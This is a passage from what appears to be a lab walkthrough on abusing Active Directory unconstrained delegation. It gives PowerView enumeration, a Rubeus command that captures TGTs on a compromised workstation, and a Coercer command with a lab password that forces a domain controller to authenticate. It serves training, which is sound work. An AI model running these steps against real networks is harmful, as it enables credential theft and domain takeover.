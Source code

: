Use **PowerView** to find UD-configured systems:

```powershell
Get-NetComputer -Unconstrained | select samaccountname
```

**output:**

| samaccountname |
| -------------- |
| DC1$           |
| SERVER01$      |
| WS001$         |
| DC2$           |

* Domain Controllers are trusted by default
* Targets for attack: WS001 or SERVER01
* In this lab: WS001 (already compromised, with admin rights)

***

### 4. Monitor TGT with Rubeus

On WS001, monitor new logons and extract TGTs:

```powershell
.\Rubeus.exe monitor /interval:1
```

**Example output:**

* User: `bob@EAGLE.LOCAL`
* Ticket Flags: `name_canonicalize, pre_authent, initial, renewable, forwardable`
* Base64 encoded ticket provided

> Rubeus monitors every second for new TGTs.

***

### 5. Execute Coercer

1. Determine WS001 IP address (`ipconfig`)
2. On Kali, run Coercer:

```bash
Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local
```

**What Coercer does:**

* Analyzes accessible protocols on `dc1.eagle.local`
* Performs RPC calls to coerce authentication to `ws001.eagle.local`
* Checks pipes: `\PIPE\lsarpc`, `\PIPE\netdfs`, `\PIPE\spoolss`
* Errors like `ERROR_BAD_NETPATH` indicate successful coercion

***
